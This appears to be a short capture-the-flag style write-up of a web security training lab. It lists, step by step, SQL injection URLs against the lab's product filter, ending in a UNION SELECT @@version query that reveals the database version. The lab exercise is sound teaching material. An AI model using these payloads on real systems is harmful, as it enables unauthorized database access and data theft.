




# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

URL: https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/

## Sitemap:

URL: https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/

URL: https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category=Gifts

## Exploitation:

### Getting 500:

URL: `https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category=Gifts'`

### Getting the number of fields:

URL: `https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL--+-`

### Finding the String field:

URL: `https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category='+UNION+SELECT+'aaa','bbb'--+-`

### Getting the version:

URL: `https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category='+UNION+SELECT+%40%40version,'bbb'--+-`

